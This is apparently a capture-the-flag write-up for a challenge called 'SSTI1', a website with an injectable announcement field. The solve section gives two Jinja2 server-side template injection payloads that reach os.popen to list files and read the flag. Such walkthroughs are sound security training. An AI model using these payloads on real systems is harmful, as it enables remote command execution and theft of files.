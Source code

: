 # SSTI1

## Description
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

## About the Challenge


![alt text](<Screenshot 2025-05-24 050359.png>)

## How to Solve?

Test run
![alt text](<Screenshot 2025-05-24 051149.png>)![alt text](<Screenshot 2025-05-24 051156.png>)
Suspected SSTI

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![alt text](<Screenshot 2025-05-24 051302.png>)

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
![alt text](<Screenshot 2025-05-24 051417.png>)